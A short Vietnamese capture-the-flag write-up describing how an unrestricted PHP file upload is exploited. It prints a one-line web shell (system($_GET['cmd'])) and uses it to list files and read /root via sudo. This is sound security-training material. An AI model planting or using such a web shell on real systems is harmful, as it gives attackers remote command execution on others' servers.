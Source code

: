 # n0s4n1ty 1

![img](269)

![img](270)

Xem source code, tôi biết rằng trang web sử dụng `php`:

![img](271)

Tôi sẽ thử upload 1 file ảnh `.jpg` bình thường:

![img](272)

Thông báo upload file thành công:

![img](273)

Tôi đã thử truy cập folder `/uploads` nhưng đã bị cấm:

![img](274)

Tiếp theo tôi thử tạo 1 payload `.php` với nội dung là:

    <?php
    echo "Hello World!";
    ?>

Sau đó upload file này lên:

![img](275)

Thông báo upload thành công, lần này thay vì truy cập folder `/uploads`, tôi sẽ truy cập trực tiếp vào `/uploads/test.php`:

![img](276)

=> Thành công in ra `Hello World!`. Tiếp theo tôi tạo 1 file `reverse.php` với nội dung là:

    <?php system($_GET['cmd']); ?>

Sau khi upload `reverse.php` thành công, tôi thử thêm tham số `cmd` vào URL:

![img](277)

Tiếp theo, thử câu lệnh `ls`:

![img](278)

Không thu được gì, dựa vào mô tả thử thách, tôi phải xem trong `/root`, nên tôi thay câu lệnh thành `sudo ls root`:

![img](279)

=> Tìm được file `flag.txt`, tiến hành đọc file này:

![img](280)







